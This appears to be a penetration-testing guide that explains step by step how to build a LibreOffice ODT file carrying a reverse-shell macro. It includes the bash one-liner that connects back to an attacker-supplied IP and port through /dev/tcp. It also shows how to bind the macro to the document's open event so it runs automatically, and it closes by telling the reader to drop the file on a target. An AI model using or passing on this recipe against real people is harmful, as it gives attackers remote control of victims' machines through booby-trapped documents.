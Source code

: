 # ODT file with RevShell

This guide will show you how to craft a ODT payload with a LibreOffice file with inside a RevShell.

{% hint style="info" %}
Disable Macro block on LibreOffice

Open Libre offce

Follow this path: Tools/Options/LibreOffice/Security/Macro Security

And select "low" option to disable the macros.
{% endhint %}

First things first, we have to create a ODT file in LibreOffice.

<figure><img src="../../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

Now, open the Macro editor in the file.

_Tools > Macros > Organize Macros > Basic_

Select the current file in the menu and click to "**New**" button and create the macro with a name.

<figure><img src="../../../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Once the macro editor will show up, we can write code for the reverse shell. In this example we will write a bash command for the connection.

```bash
shell("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'")
```

<figure><img src="../../../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Save the macro by hitting **Ctrl+S**.



**And now setup the Macro to automatically run.**

* Turn back to the Libre Document
* Click on _Tools>Macros>Organize Macros> Basic_.
* Select our macro and click on the "Assign" button.
* Click on "Events" tab and then on Open Document and set the macro by clicking the "Macro" button.

<figure><img src="../../../../../.gitbook/assets/image (235).png" alt="" width="500"><figcaption></figcaption></figure>



* Highlight the created macro and click OK. Hit Ctrl+S again to save.



Now we can drop the malicious file to get a revshell.



